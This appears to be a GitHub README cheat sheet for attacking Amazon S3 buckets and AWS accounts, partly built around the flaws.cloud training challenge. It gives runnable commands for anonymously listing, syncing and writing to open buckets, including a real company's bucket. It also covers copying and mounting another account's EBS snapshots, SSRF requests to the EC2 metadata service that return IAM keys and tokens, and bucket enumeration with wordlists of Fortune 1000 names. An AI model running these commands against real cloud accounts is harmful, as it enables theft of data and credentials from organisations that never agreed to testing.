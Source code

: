 # AWS-Amazon-Bucket-S3
AWS-Amazon-Bucket-S3



# Amazon Bucket S3 AWS
Prerequisites, at least you need awscli
```
sudo apt install awscli
```
You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/
```
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```
```
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names
```
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
```

## Basic test - Listing the files
```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```
You can get the region with a dig and nslookup
```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.		5	IN	A	52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```


## Move a file into the bucket
```
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

## Download every things (in an open bucket)
```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

## Check bucket disk size (authenticated) use, --no-sign for un-authenticated 
```
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup
```
aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",

aws --profile flaws  ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2    
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
chmod 400 YOUR_KEY.pem
ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
lsblk
sudo file -s /dev/xvda1
sudo mount /dev/xvda1 /mnt
```


## Bucket informations
Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
```
For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

## Bucket Finder
A cool tool that will search for readable buckets and list all the files in them. It can also be used to quickly find buckets that exist but deny access to listing files.
```
wget https://digi.ninja/files/bucket_finder_1.1.tar.bz2 -O bucket_finder_1.1.tar.bz2
./bucket_finder.rb my_words
./bucket_finder.rb --region ie my_words
	US Standard         = http://s3.amazonaws.com
	Ireland             = http://s3-eu-west-1.amazonaws.com
	Northern California = http://s3-us-west-1.amazonaws.com
	Singapore           = http://s3-ap-southeast-1.amazonaws.com
	Tokyo               = http://s3-ap-northeast-1.amazonaws.com

./bucket_finder.rb --download --region ie my_words
./bucket_finder.rb --log-file bucket.out my_words
```
Use a custom wordlist for the bucket finder, can be created with
```
List of Fortune1000 company names with permutations on .com, -backup, -media. For example, walmart becomes walmart, walmart.com, walmart-backup, walmart-media.
List of the top Alexa 100,000 sites with permutations on the TLD and www. For example, walmart.com becomes www.walmart.com, www.walmart.net, walmart.com, and walmart.
```


## Thanks to
* https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets
* https://digi.ninja/projects/bucket_finder.php
* [Bug Bounty Survey - AWS Basic test](https://twitter.com/bugbsurveys/status/859389553211297792)
* [FlAWS.cloud Challenge based on AWS vulnerabilities](http://flaws.cloud/)
